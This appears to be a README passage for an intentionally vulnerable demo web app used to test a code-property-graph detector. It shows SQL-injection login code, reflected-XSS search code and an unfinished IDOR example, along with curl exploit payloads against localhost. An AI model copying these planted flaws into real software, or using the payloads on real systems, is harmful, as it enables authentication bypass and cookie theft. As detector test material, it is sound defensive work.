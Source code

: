 ## 🐛 Vulnerabilities Explained

### 1. SQL Injection (Login)

**Location**: `/api/login` (POST)

**Vulnerable Code**:
```python
query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
c.execute(query)  # Direct string concatenation
```

**Exploit**:
```bash
curl -X POST http://localhost:8888/api/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin'\'' OR '\''1'\''='\''1'\'' --", "password": "anything"}'
```

**Result**: Bypasses authentication, logs in as admin

**CPG Detection**: Data flow from `request.json` → SQL query without parameterization

---

### 2. XSS (Reflected)

**Location**: `/api/search` (GET)

**Vulnerable Code**:
```python
query = request.args.get('q', '')
html = f"<h1>Search Results for: {query}</h1>"  # Reflects input
return html
```

**Exploit**:
```bash
curl "http://localhost:8888/api/search?q=<script>alert(document.cookie)</script>"
```

**Result**: Script executes in browser

**CPG Detection**: Data flow from `request.args` → HTML output without escaping

---

### 3. IDOR (Insecure Direct Object Reference)

**Location**: `/api/user/<id>/profile` (GET)

**Vulnerable Code**:
```python
def get_profile(user_id):
    # MISSING: if session.get('user_id') != user_id: return 403
    c.execute("SELECT * FROM users WHERE id=?", (user_id,))
    return jsonify(user)
```
